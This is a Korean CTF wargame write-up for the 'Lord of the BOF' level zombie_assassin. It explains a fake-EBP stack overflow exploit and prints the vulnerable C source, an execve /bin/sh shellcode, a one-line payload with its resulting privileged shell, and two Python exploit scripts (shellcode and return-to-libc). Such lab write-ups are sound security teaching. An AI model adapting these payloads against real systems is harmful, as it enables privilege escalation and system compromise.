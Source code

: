 ```yaml
---
title: "[LOB]Level16. zombie_assassin"
tags: [LOB, writeup, fake EBP]
author: eli_ez3r
key: 20180831
modify_date: 2019-11-14
article_header:
  type: cover
  image:
    src: 
---
```


[Fake EBP](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - zombie_assassin
        - FEBP
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
	char buffer[40];

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	if(argv[1][47] == '\xbf')
	{
		printf("stack retbayed you!\n");
		exit(0);
	}

        if(argv[1][47] == '\x40')
        {
                printf("library retbayed you, too!!\n");
                exit(0);
        }

	// strncpy instead of strcpy!
	strncpy(buffer, argv[1], 48);
	printf("%s\n", buffer);
}
```

-----

### 0x01. Analysis & Exploit

분기문을 통해서 '\xbf', '\x40' 으로 시작하는 주소들을 모두 필터링 된다.

```
[assassin@localhost assassin]$ cat /proc/751/maps
08048000-0817d000 r-xp 00000000 08:05 129443     /usr/bin/gdb
0817d000-08184000 rw-p 00134000 08:05 129443     /usr/bin/gdb
08184000-0850f000 rwxp 00000000 00:00 0
40000000-40013000 r-xp 00000000 08:08 34138      /lib/ld-2.1.3.so
40013000-40014000 rw-p 00012000 08:08 34138      /lib/ld-2.1.3.so
40014000-40018000 rw-p 00000000 00:00 0
40018000-4004d000 r-xp 00000000 08:05 96962      /usr/lib/libncurses.so.4.0
4004d000-40056000 rw-p 00034000 08:05 96962      /usr/lib/libncurses.so.4.0
40056000-4005a000 rw-p 00000000 00:00 0
4005a000-40076000 r-xp 00000000 08:08 34156      /lib/libm-2.1.3.so
40076000-40077000 rw-p 0001b000 08:08 34156      /lib/libm-2.1.3.so
40077000-40164000 r-xp 00000000 08:08 34145      /lib/libc-2.1.3.so
40164000-40168000 rw-p 000ec000 08:08 34145      /lib/libc-2.1.3.so
40168000-4016c000 rw-p 00000000 00:00 0
4016c000-40182000 r--p 00000000 08:05 32279      /usr/share/locale/en_US/LC_CTYPE
40182000-40290000 rw-p 00000000 00:00 0
bfffb000-c0000000 rwxp ffffc000 00:00 0
```

#### Shellcode를 이용한 공격

```
shellcode(24byte) :
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

payload 시나리오 :

```
./zombie_assassin `python -c print "&[buf+4]"+"shellcode(24byte)"+"\x90"*12+"&[buf-4]"+"&leave-ret 가젯"
```



&[buf-4] : 0xbffffc5c

&buf : 0xbffffc60

&[buf+4] : 0xbffffc64

&leave-ret : 0x080484df



> gdb 통해 얻은 buf의 주소와 실제 구동되는 buf의 주소가 0x10주소 만큼 차이가 나서 삽질을 많이 했다.
>
> => core 덤프를 통해서 알아낸 주소가 buffer 주소가 아닌 main함수 인자값 주소였다. 생각없이 'x/100x $esp' 로 흩어 보면서 찾았는데, x/100x $esp-100 으로 윗부분을 보니 buffer가 존재함;;
>
> => 소스코드를 복사하여 printf("%p", buffer); 를 추가하여 제대로된 주소를 구하는 방법도 있음.

> leave-ret 을 이용하여 fakeEBP기법을 사용하면 esp가 buf+4 로 이동하기 때문에 buf-4의 주소를 넣어주어야 실제 buf 주소가 실행된다.
>
> eip에는 shellcode가 있는 시작 주소가 들어가야 하기 때문에, buf시작 부분에 shellcode의 시작 주소를 넣어주었다.



##### Payload

```
./zombie_assassin `python -c 'print "\x64\xfc\xff\xbf"+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+"\x90"*12+"\x5c\xfc\xff\xbf"+"\xdf\x84\x04\x08"'`
```

```
릱릱?@?@廈@릱릱릱릱릱릱릱릱릱릱릱릱`?욀?   ☻
bash$ id
uid=515(assassin) gid=515(assassin) euid=516(zombie_assassin) egid=516(zombie_assassin) groups=515(assassin)
bash$ my-pass
euid = 516
no place to hide
```

------

##### python

```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/assassin/zombie_assassin"

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

buffer_addr = 0xbffffc60
shellcode_addr = buffer_addr + 4
fake_ebp = buffer_addr - 4
leave_ret = 0x080484df

payload = p32(shellcode_addr)
payload = append(shellcode)
payload = append("\x90"*(40-4-24))
payload = append(p32(fake_ebp))
payload = append(p32(leave_ret))

pid = os.fork()
if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

------

##### RTL

```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/assassin/zombie_assassin"

buffer_addr = 0xbffffc40
fake_ebp = buffer_addr - 4

libc_addr = 0x40018000
binsh_offset = 0xe3ff9
binsh_addr = libc_addr + binsh_offset

system_addr = 0x40058ae0
leave_ret_gadjet = 0x80484df
exit_addr = 0x400391e0

payload = p32(system_addr)                      # buffer[40]
payload = append(p32(exit_addr))
payload = append(p32(binsh_addr))
payload = append("\x90"*(40-12))
payload = append(p32(fake_ebp))                 # sfp
payload = append(p32(leave_ret_gadjet))         # ret

pid = os.fork()
if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```

-----

